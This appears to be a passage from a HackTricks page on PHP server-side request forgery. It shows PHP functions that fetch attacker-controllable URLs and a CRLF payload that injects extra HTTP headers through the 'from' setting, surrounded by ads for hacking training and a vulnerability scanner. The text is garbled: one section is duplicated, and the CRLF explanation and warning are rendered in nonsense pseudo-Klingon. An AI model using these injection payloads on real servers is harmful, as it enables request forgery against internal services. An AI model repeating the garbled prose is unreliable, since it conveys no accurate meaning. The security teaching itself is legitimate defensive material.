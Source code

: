 # PHP SSRF

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

### SSRF PHP functions

Some function such as _**file\_get\_contents(), fopen(), file(), md5\_file()**accept URLs as input that they will follow making **possible SSRF vulnerabilities** if the use can control the data:

### SSRF PHP functions

Some function such as _**file\_get\_contents(), fopen(), file(), md5\_file()**accept URLs as input that they will follow making **possible SSRF vulnerabilities** if the use can control the data:
```php
file_get_contents("http://127.0.0.1:8081");
fopen("http://127.0.0.1:8081", "r");
file("http://127.0.0.1:8081");
md5_file("http://127.0.0.1:8081");
```
### CRLF

Qatlh

Qap, chay' vItlhutlhlu'pu' CRLF "vulnerabilities" previous functions vItlhutlhlu'pu' headers arbitrary yuQjIjDI'lu'.
```php
# The following will create a header called from with value Hi and
# an extra header "Injected: I HAVE IT"
ini_set("from", "Hi\r\nInjected: I HAVE IT");
file_get_contents("http://127.0.0.1:8081");

GET / HTTP/1.1
From: Hi
Injected: I HAVE IT
Host: 127.0.0.1:8081
Connection: close

# Any of the previously mentioned functions will send those headers
```
{% hint style="warning" %}
ghItlhvam CRLF vuln vItlhutlh. [https://bugs.php.net/bug.php?id=81680\&edit=1](https://bugs.php.net/bug.php?id=81680\&edit=1) bug vItlhutlh.
{% endhint %}

